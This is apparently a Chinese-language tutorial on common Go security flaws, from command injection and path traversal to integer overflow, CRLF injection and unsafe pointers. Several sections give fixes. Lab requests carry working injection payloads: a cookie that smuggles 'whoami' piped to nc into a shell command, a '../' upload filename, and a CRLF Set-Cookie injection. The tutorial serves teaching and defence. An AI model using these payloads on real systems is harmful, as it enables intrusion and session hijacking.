

# Go语言常见漏洞

## 命令注入

> [GitHub - Hardw01f/Vulnerability-goapp: Web application build Golang with Vulnerability](https://github.com/Hardw01f/Vulnerability-goapp)

这里能看到执行命令的`exec.Command`，命令通过拼接传入，所以可以利用管道符，把命令拼在后面。


对这个函数查找所有引用，这里能看到，函数取cookie中的`adminSID=` 字段值，进行拼接


接着查找所有引用，就找到了这个监听，从这里传入命令


```http
GET /adminusers HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,en-GB;q=0.6
Cache-Control: max-age=0
Connection: keep-alive
Cookie: UserName="Amuro Ray"; SessionID=UlgtNzgtMkBFRlNGLmNvbQ==; UserID=1; adminSID=abcs'|whoami|nc 127.0.0.1 1234|echo '
DNT: 1
Host: localhost:9090
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
sec-ch-ua: "Chromium";v="122", "Not(A:Brand";v="24", "Microsoft Edge";v="122"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"


```


## 文件上传

> [GitHub - Hardw01f/Vulnerability-goapp: Web application build Golang with Vulnerability](https://github.com/Hardw01f/Vulnerability-goapp)

`pkg/image/imageUploader.go` ，这里保存文件，路径是拼接的，且没有检验后缀


```http
POST /profile/edit/upload HTTP/1.1
Host: 172.31.13.26:9090
Content-Length: 217
Cache-Control: max-age=0
Origin: http://172.31.13.26:9090
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDQNyUK8qxiSbnrgx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.31.13.26:9090/profile/edit/image
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,en-GB;q=0.6
Cookie: UserName="Amuro Ray"; SessionID=UlgtNzgtMkBFRlNGLmNvbQ==; UserID=1; adminSID=
Connection: close

------WebKitFormBoundaryDQNyUK8qxiSbnrgx
Content-Disposition: form-data; name="uploadfile"; filename="../../../../../../a"
Content-Type: text/plain

ahujfdvuegougrvour
------WebKitFormBoundaryDQNyUK8qxiSbnrgx--

```

但是，在`file, handler, err := r.FormFile("uploadfile")`会把filename中的`../`去掉


go版本太高就无法复现了，也没查到具体哪个版本更新的，靶场中docker-compose文件里写的go版本是13

## 越权

> [GitHub - Hardw01f/Vulnerability-goapp: Web application build Golang with Vulnerability](https://github.com/Hardw01f/Vulnerability-goapp)

这个项目在从cookie中获取uid之前，做了一步对cookie的有效性进行校验


`CheckSessionID`里有一个`ValidateCorrectCookie`的方法校验cookie


ValidateCorrectCookie通过将用户输入的cookie和后台数据库存储的信息进行比对


这样就可以避免越权


## 整数反转/溢出

### 对无符号数的反转

```go
func uintTest() {
	// uint32取值范围是0到4294967295
	var a uint32 = 2147483648
	var b uint32 = 2147483648
	var sum = a + b
	fmt.Println(reflect.TypeOf(sum))
	// uint32类型是无符号的，溢出时会循环回到0
	fmt.Printf("Sum is : %d\n", sum)
}
```

想要直接声明一个大小已经溢出的数自然不会通过编译，因此出现反转的话，主要是在变量的相加这样的计算才会会导致标志CF位反转

### 有符号数的溢出

```go
func intTest() {
	// int8取值范围-128到127
	var a int8 = 127
	var b int8 = 1
	var sum int8 = a + b
	fmt.Println(reflect.TypeOf(sum))
	// 溢出后的值会从-128开始循环，即128 % 256 = 128，所以sum的值会是-128
	fmt.Printf("Sum is : %d\n", sum)
}
```

### 截断

在类型转换中,也会出现较大整型向较小整型转换的截断问题

```go
func truncated() {
	var a int16 = 256
	var b = int8(a) // int8取值范围-128到127，256会溢出，取余后得到0
	fmt.Println(b)
}
```

一个比较经典的例子就是：`kubectl`命令行中出现了一个`strconv.Atoi`导致的截断问题。当我们传入port参数的对应字符串后,容器启动的端口这一参数会将经Atoi处理后的字符串进行int32的类型转换。由于64位系统的int是int64类型。转int32的话会出现明显截断
可以简化成以下代码：

```go
v , _ := strconv.Atoi("4294967377")
s  := int32(v)
fmt.Println(s)
// 81
```

这样就有可能导致81端口的服务启动，或者被停止。所以使用`ParseInt ,ParseUInt`会比较好。或者对端口号进行限制。

## pseudo-rand

`math/rand` 包中，我们可以看到随机数生成的函数形式


跟进一下函数与结构体

```go
var globalRand = New(&lockedSource{src: NewSource(1).(*rngSource)})
 
......
 
func NewSource(seed int64) Source {
    var rng rngSource
    rng.Seed(seed)
    return &rng
}
```

可以看到,这些随机数函数的seed默认为1.也就是说如果不使用`rand.Seed()`确认种子的话，生成的只是所谓的伪随机数。


## net/http < 1.11 CRLF注入

在HTTP协议中，HTTP header之间是由一个CRLF字符序列分隔开的，HTTP Header与Body是用两个CRLF分隔的，浏览器根据这两个CRLF来取出HTTP内容并显示出来。所以如果用户的输入在HTTP返回包的Header处回显，便可以通过CRLF来提前结束响应头，在响应内容处注入攻击脚本。因此CRLF Injection又叫HTTP响应拆分/截断（HTTP Response Splitting）简称HRS。

一般网站会在HTTP头中用 `Location: http://baidu.com` 这种方式来进行302跳转，如果我们能控制 `Location:` 后面的某个网址的URL，就可以进行HRS攻击。

一个常见的跳转响应包：

```http
HTTP/1.1 302 Moved Temporarily
Date:Fri,26Jun 2018 17:00:05 GMT
Content-type:text/html
Contet-Length:155
Connection:close
?Location=http://www.sinay.com.cn%0d%0aSet-Cookie:JSPSESSID%3Dhackingsite

```

当攻击者利用CRLF字符对响应头中的Location进行如下输入：

`%0d%0aSet-Cookie:JSPSESSID%3Dhackingsite`

则返回包会变成：

```http
HTTP/1.1 302 Moved Temporarily
Date:Fri,26Jun 2018 17:00:05 GMT
Content-type:text/html
Contet-Length:155
Connection:close
Location:http://www.sinay.com.cn
Set-Cookie:JSPSESSID=hackingsite

```

攻击者就可以给访问者设置一个session，造成“会话固定”。通过这种攻击方式可以实现插入任意响应Header。

低版本的http库会导致CRLF注入。比如`http.NewRequest()`。貌似是原本没有问题，但是在一次升级中疏忽了导致重新出现


现在会看到存在限制，我们无法传入`\r\n`的字符

## slice

```
a := make([]uint64, 0)
a = append(a, 1)
a = append(a, 2)
a = append(a, 3)
b := append(a, 4)
c := append(a, 5)
 
fmt.Println(a)
fmt.Println(b)
fmt.Println(c)
 
//result:
//[1 2 3]
//[1 2 3 5]
//[1 2 3 5]
```

按照直觉来说，b这里应该是`[1,2,3,4]`,但实际上却是`[1,2,3,5]`
这就与golang的slice也就是切片的结构相关了

```
type slice struct {
    array unsafe.Pointer // ptr
    len   int
    cap   int
}
```


slice结构中的cap是按2的倍数扩容的。所以说当我们`append(3)`时会发生第一次扩容，此时len为3，cap为`2*2=4`.
执行`b := append(a, 4)`时，我们的4会被放在指针ptr的第四个位置。然后返回ptr len=4 cap=4给b。不过这并没有改变a的结构（slice只是指向内存的指针）之后进行`c := append(a, 5)`时，由于a没变，新元素只会覆盖之前b那放上的4.

`b := append(a, 4)` 语句将元素 4 追加到切片 `a` 中，并将返回的新切片赋值给 `b`。同样，`c := append(a, 5)` 语句也将元素 5 追加到切片 `a` 中，并将返回的新切片赋值给 `c`。

由于 `b` 和 `c` 都是通过向切片 `a` 追加元素生成的，它们实际上共享相同的底层数组。因此，向 `a` 中追加元素 4 或 5 会影响到 `b` 和 `c`，因为它们都指向相同的底层数组。

## 目录遍历

```
filepath.Join()
filepath.Clean()
```

`Join` 将任意数量的路径元素合并成一个单一的路径，并用操作系统特定的分隔符进行分隔。先对路径做一些`Clean()`处理，但不能避免目录遍历


测试代码：

```go
package main

import (
    "fmt"
    "path/filepath"
)

func main() {
    strings := []string{
        "/a/./../b",
        "a/../b",
        "..a/./../b",
        "a/../../../../../../../b/c",
    }

    domain := "ytm.com"
    fmt.Println("结果如下：")
    for _, s := range strings {
        fmt.Println(filepath.Join(domain, s))
    }
}
```

输出结果如下


`filepath.Clean()`函数的作用如下：（其实就是根据先拼接，再去掉没用的地方，例如`a/./../`，这种情况搞来搞去还是当前目录，就会被直接去掉）

```
1.用一个分隔符元素替换多个分隔符元素。
2.消除每个 . 路径名元素（当前目录）。
3.消除每个内部 .. 路径名元素（父目录）及其前面的非 .. 元素。
4.消除以根路径开头的 .. 元素：也就是说，假设分隔符是“/”，将路径开头的“/..”替换为“/”。
```

可以看到该`filepath.Clean()`函数允许`switch-case`'../../../../' 类型的输入。


那么我们对上述代码改为如下代码，再添加一层`filepath.Clean()`函数，我们再次运行会发现最后一句打印语句还是`../`开头

这个故事告诉我们，`filepath.Clean()`函数加上也不能放置目录遍历。

```go
package main

import (
    "fmt"
    "path/filepath"
)

func main() {
    strings := []string{
        "/a/./../b",
        "a/../b",
        "..a/./../b",
        "a/../../../../../../../b/c",
    }

    domain := "ytm.com"
    fmt.Println("结果如下：")
    for _, s := range strings {
        fmt.Println(filepath.Clean(filepath.Join(domain, s)))
    }
}
```


## GOROUTINE 泄漏

可以参考如下文章

```
https://github.com/kubernetes/kubernetes/pull/5316
https://github.com/pingcap/tiflow/pull/1034/commits/0a9a1c1d07b6cdd70a0cb2221359d8e221bfb57c
https://bugs.launchpad.net/juju/+bug/1813104
```

例如

```
package main

import (
    "fmt"
    "time"
)

func print(s []string) {
    for _, v := range s {
        fmt.Println(v)
    }
}

func main() {
    strings := []string{"one", "two", "three", "four", "five"}
    fmt.Println("结果如下：")
    go print(strings)

    time.Sleep(3 * time.Second)
    fmt.Println("Exiting")
}
```

goroutine 的有趣之处在于，调用函数不必等待它们返回即可返回自身。在上述情况下，它通常会导致程序在我们看到控制台上的任何打印之前退出。这是 goroutine 泄漏问题的一部分。如果没有上面的sleep函数，就会这样



导致 goroutine 泄漏的另一个重要 Go 概念是通道。如GO官网解释那样：

```
通道是连接并发 goroutine的管道。
```

在其基本用法中，我们可以向通道发送数据或从通道接收数据：

```go
import (
    "fmt"
)
func mod(min int, max int, div int, signal chan int) {
    for n := min; n <= max; n++ {
        if n%div == 0 {
            signal <- n
        }
    }
}
func main() {
    fsignal := make(chan int)
    ssignal := make(chan int)
    go mod(15, 132, 14, fsignal)
    go mod(18, 132, 17, ssignal)

    fourteen, seventeen := <-fsignal, <-ssignal
    fmt.Println("Divisible by 14: ", fourteen)
    fmt.Println("Divisible by 17: ", seventeen)
```

该代码展示了如何使用 Goroutines 和 channels 来并发地计算两个数字范围内的数值，并找出能被特定数字整除的第一个数。

在这个例子中，使用**阻塞、无缓冲的**通道。这两者是相辅相成的，因为无缓冲通道用于同步操作，程序在从通道接收到数据之前无法继续，因此它会阻止进一步的执行。

当无缓冲通道没有机会在其通道上发送数据时，就会发生 Goroutine 泄漏，因为其调用函数已经返回。这意味着挂起的 Goroutine 将保留在内存中，因为垃圾收集器将始终看到它在等待数据。举个例子：

```go
package main

import (
    "fmt"
    "time"
)

func userChoice() string {
    time.Sleep(5 * time.Second)
    return "right choice"
}

func someAction() string {
    ch := make(chan string)
    timeout := make(chan bool)

    go func() {
        res := userChoice()
        ch <- res
    }()
    go func() {
        time.Sleep(2 * time.Second)
        timeout <- true
    }()
    select {
    case <-timeout:
        return "Timeout occured"
    case userchoice := <-ch:
        fmt.Println("User made a choice: ", userchoice)
        return ""
    }
}
func main() {
    fmt.Println(someAction())
    time.Sleep(1 * time.Second)
    fmt.Println("Exiting")
}
```

该代码通过使用 Goroutines 和 channels 来实现超时机制。它会等待用户选择（通过模拟的 userChoice 函数），如果用户选择在超时之前完成，则输出用户的选择；如果在指定时间内没有完成，则返回超时消息。

这个简单的示例用于模拟需要用户交互但超时值很低的功能。这意味着，除非我们的用户反应非常快，否则超时会在它做出选择之前发生，因此goroutine内的userChoice()函数将永远不会返回，从而导致泄漏。

此类漏洞的安全影响在很大程度上取决于具体的情况，但最有可能导致拒绝服务的情况。因此，只有当程序的生命周期足够长，并且启动了足够多的 goroutine 来大量消耗内存资源时，这才会成为问题。因此该问题主要是取决于用例和环境才会导致该漏洞产生更严重的影响。

最简单的解决方法是使用缓冲通道，这意味着 goroutines 具有非阻塞（异步）行为：

```
func someAction() string {
    ch := make(chan string, 1)
    timeout := make(chan bool)
```

## fmt.Sprintf()

**创建服务**

开发人员经常会做下面的事情：

```
target := fmt.Sprintf("%s:%s", hostname, port)
```

这行代码乍一看是将主机名和端口组合成一个目标地址字符串，可能是为了稍后连接到服务器。看起来好像没有什么问题，但是如果hostname是IPV6地址会发生什么情况呢？如果在网络连接中使用生成的字符串时，识别到冒号它会假定它是协议分隔符，这就会导致异常。

为了避免这种问题，使用`net.JoinHostPort`可以用下面方式创建字符串：`[host]:port`，这是一个常用的连接字符串。

**未转义的控制字符**

最常用的格式化动词之一`fmt.Sprintf()`是我们熟悉的`%s`，它表示纯字符串。但是，如果在 REST API 调用中使用这种格式化的字符串，会发生什么情况，例如：

```
URI := fmt.Sprintf("admin/updateUser/%s", userControlledParam)
resp, err := http.Post(filepath.Join("https://victim.site/", URI), "application/json", body)
```

`%s`格式化动词表示纯字符串。用户可以注入控制字符，例如`\0xA`换行符或`\xB`制表符。在大多数情况下，这可能会导致各种header头注入漏洞。

因此我们有如下两种解决方案：

1.使用`%q`格式化，它将创建一个带编码控制字符的引号字符串

2.可以使用`strconv.Quote()`，它将引用字符串并编码控制字符

## Unsafe包

GO语言中有一个包命名为unsafe，参考文档可知

https://pkg.go.dev/unsafe

```
Package unsafe contains operations that step around the type safety of Go programs.
该包包含绕过GO程序类型安全的操作
```

从安全角度来看，其函数的使用用途是与syscall包一起使用，该操作非常常见，但是具体怎么回事，我们需要了解GO语言中的unsafe.Pointer和uintptr分别是什么。

简而言之，unsafe.Pointer 是一个 Go 内置类型（就像 string、map 和 chan 一样），这意味着它在内存中有一个关联的 Go 对象。基本上，任何 Go 指针都可以被转换为 unsafe.Pointer，这会使得编译器不对该对象执行边界检查。也就是说，开发人员可以告诉 Go 编译器绕过其类型安全。除此之外，uintptr 基本上只是 unsafe.Pointer 所指向的内存地址的整数表示。

那么再来看syscall，系统调用在编译后的Go的二进制文件运行时，这意味着它们在调用时需要原始指针，不知道如何处理完整的unsafe.Pointer对象。因此，当我们要 Go程序中调用syscall 时，我们需要将unsafe.Pointer转换为 uintptr，以丢弃 Go 对象在内存中具有的所有其他数据。这将把指针转换为指针所指向的存储器地址的简单整数表示:

```
rawPointer := uintptr(unsafe.Pointer(pointer))
```

到这里相信大家对unsafe包有一定的原理了解。那么我们当前讨论的另一个重要内容为Go语言中有一个`non-generational concurrent, tri-color mark and sweep`垃圾回收器，我们无法知道GO在运行时何时会触发垃圾回收机制。

如果从 unsafe.Pointer 转换为 uintptr 并在 syscall 中使用时触发垃圾收集机制，我们可能会向系统调用传递一个完全不同的内存结构。这是因为垃圾收集器可能会在内存中移动对象，但它不会更新 uintptr，因此该地址可能与我们执行转换时完全不同。

**安全问题**

同样，与其他Go异常类似，该漏洞的影响实际上取决于上下文。首先，由于垃圾回收而更改内存的机率非常低。但是，这种机率会随着我们拥有的 goroutine 数量和程序运行时间的增加而显著增加。最有可能的是，我们会得到一个无效指针解引用异常，但有可能将这样一个漏洞变成一个利用点。

**修复方式**

使用如下代码可有效防御该问题：

```
_, _, errno := syscall.Syscall(syscall.SYS_IOCTL, f.Fd(), request, uintptr(unsafe.Pointer(pointer)))
```

该代码使用Go语言的`syscall` 包中的 `Syscall` 函数来进行系统调用 `ioctl`，它允许程序与操作系统内核进行低级别的设备控制。具体来说，这段代码进行了一次 `ioctl` 调用，传递了文件描述符、请求代码和一个指向数据的指针，并接收返回的错误代码 `errno`。

## OS.EXECUTABLE()

`OS.EXECUTABLE()`函数作用是获取当前程序的路径。它如何处理符号链接取决于操作系统，我们可以看如下代码：

```go
func withoutEval() string {
    execBin, _ := os.Executable()
    path, err := filepath.Abs(filepath.Dir(execBin))
    if err != nil {
        log.Fatalf("error %v\n", err)
    }
    fmt.Println("Path without filepath.EvalSymlinks():", path)
    return path
}

func printFile(path string) {
    fname := "test.txt"
    abspath := filepath.Join(path, fname)

    file, err := os.Open(abspath)
    if err != nil {
        log.Fatal(err)
    }
    defer file.Close()

    fbytes := make([]byte, 16)
    bytesRead, err := file.Read(fbytes)
    if err != nil {
        log.Fatal(err)
    }
    fmt.Printf("Number of bytes read: %d\n", bytesRead)
    fmt.Printf("Bytes: %s\n", fbytes)
}
```

这段 Go 代码包括两个函数：`withoutEval` 和 `printFile`。`withoutEval` 函数获取当前可执行文件的目录路径，并打印它；`printFile` 函数打开一个指定目录中的文件，并读取其中的一部分内容，然后打印读取到的字节数和字节内容。

那么我们假设读取一个配置文件，该文件假设位于我们运行程序的同一目录中

当我们在没有任何符号链接的情况下运行该程序时，我们得到预期的行为，即配置文件将从主二进制文件所在的同一目录中读取

```
bcloud@ubuntu:~/Desktop/sym$ echo BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB > test.txt
bcloud@ubuntu:~/Desktop/sym$ ./sym
Executable location: /home/bcloud/Desktop/sym/sym
/home/bcloud/Desktop/sym/test.txt
Number of bytes read: 16
Bytes: BBBBBBBBBBBBBBBB
```

另外，假设我们的实际二进制文件位于其他目录中，并且我们通过符号链接运行我们的程序

```
bcloud@ubuntu:~/Desktop/sym$ echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA > bin/test.txt
bcloud@ubuntu:~/Desktop/sym$ mv sym sym.bak
bcloud@ubuntu:~/Desktop/sym$ ln -s bin/sym sym
```

在 Linux 上，Go会跟踪符号链接，因此会尝试从以下位置读取配置文件/home/user/Documents/

```
bcloud@ubuntu:~/Desktop/sym$ ./sym
Executable location: /home/bcloud/Desktop/sym/bin/sym
/home/bcloud/Desktop/sym/bin/test.txt
Number of bytes read: 16
Bytes: AAAAAAAAAAAAAAAA
```

**安全问题**

假设我们有一个长期运行的 Go 二进制文件，例如服务或类似文件，位于受保护的位置，以防止低权限用户访问，并且配置文件规定了一些安全选项，例如对服务器或类似文件的主机证书验证。在 Windows 和 MacOS 上，即使对于权限较低的用户，我们也可以在可控制的位置创建指向此二进制文件的符号链接，并在那里添加修改后的配置文件，程序将在下次运行时读取该文件。实际上，这使得攻击者能够从低权限用户帐户覆盖那里的安全设置。

**修复方式**

修复方法相对简单。我们只需要将结果传递`os.Executable()`给`os.EvalSymlinks()`。此函数将检查路径是否为符号链接，如果是，它将返回链接指向的绝对路径。
